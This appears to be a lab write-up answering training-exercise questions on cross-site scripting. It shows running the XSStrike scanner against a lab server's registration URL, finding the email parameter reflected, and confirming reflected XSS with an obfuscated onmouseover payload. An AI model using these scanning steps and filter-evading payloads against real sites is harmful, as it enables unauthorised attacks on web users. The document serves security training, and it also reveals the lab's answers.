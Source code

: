 # XSS Discovery

### Utilize some of the techniques mentioned in this section to identify the vulnerable input parameter found in the above server. What is the name of the vulnerable parameter?



<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To look for insertion points we entered random values on the application, and then clicked on Register.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then we copy the URL as it is:

```
http://94.237.58.33:51035/?fullname=asdasd&username=sdasf&password=testeasdasd&email=test%40test.com
```

Lastly we'll use the xsstrike tool to explore the parameters:

{% code overflow="wrap" %}
```bash
python xsstrike.py -u "http://94.237.58.33:51035/?fullname=asdasd&username=sdasf&password=testeasdasd&email=test%40test.com"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As the tool runs, we can see that the a reflection was found in the email!



### What type of XSS was found on the above server? "name only"



To answer this question we have to explore the vulnerability

We take the URL used in the last exercise and add the tested payload:

{% code overflow="wrap" %}
```html
http://94.237.58.33:51035/?fullname=asdasd&username=sdasf&password=testeasdasd&email=test%40test.com<A%0AONmOuSeOver+=+(prompt)``>v3dm0s
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then we just paste the modified URL and the prompt appears.

This is a Reflected XSS, we can confirm that by revisiting the page.
